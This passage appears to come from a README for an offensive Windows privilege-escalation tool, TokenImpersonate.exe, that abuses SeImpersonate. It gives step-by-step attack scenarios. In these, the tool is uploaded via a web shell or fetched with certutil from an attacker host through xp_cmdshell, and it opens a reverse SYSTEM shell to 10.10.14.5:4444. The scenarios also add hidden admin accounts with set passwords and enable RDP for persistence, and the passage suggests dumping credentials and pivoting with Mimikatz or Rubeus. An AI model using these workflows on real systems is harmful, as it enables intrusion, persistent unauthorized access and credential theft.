 ```
3. Use specific PIDs for targeted operations
4. Chain commands for complete compromise

### Advanced Path
1. Brute force by username for automation
2. Combine with other tools (Mimikatz, Rubeus, etc.)
3. Use for lateral movement scenarios
4. Integrate into automated exploitation scripts

---

## 🔥 REAL-WORLD SCENARIOS

### Scenario A: Compromised Web Application
```
Initial Access: Web shell on IIS server
Privileges: IIS APPPOOL\DefaultAppPool
SeImpersonate: Enabled ✓

Workflow:
1. Upload TokenImpersonate.exe via web shell
2. .\TokenImpersonate.exe auto → SYSTEM shell
3. .\TokenImpersonate.exe 540 adduser webadmin Pass123!
4. .\TokenImpersonate.exe 540 rdp
5. RDP in as webadmin (now persistent admin access)
```

### Scenario B: SQL Injection to RCE
```
Initial Access: xp_cmdshell on MSSQL server
Privileges: NT SERVICE\MSSQLSERVER
SeImpersonate: Enabled ✓

Workflow:
1. EXEC xp_cmdshell 'certutil -urlcache -f http://attacker/ti.exe C:\Windows\Tasks\ti.exe'
2. EXEC xp_cmdshell 'C:\Windows\Tasks\ti.exe brute SYSTEM shell 10.10.14.5 4444'
3. Catch reverse SYSTEM shell on Kali
4. From shell: Create persistence, dump creds, pivot
```

### Scenario C: Service Account Compromise
```
Initial Access: Compromised service account credentials
Privileges: domain\svc_account (local admin on server)
SeImpersonate: Enabled ✓

Workflow:
1. evil-winrm -i server -u svc_account -p Password123
2. upload TokenImpersonate.exe
3. .\TokenImpersonate.exe list | findstr SYSTEM
4. .\TokenImpersonate.exe 540 adduser persist SecurePass789!
5. Disconnect and reconnect as persist user
6. Now have persistent admin without service account
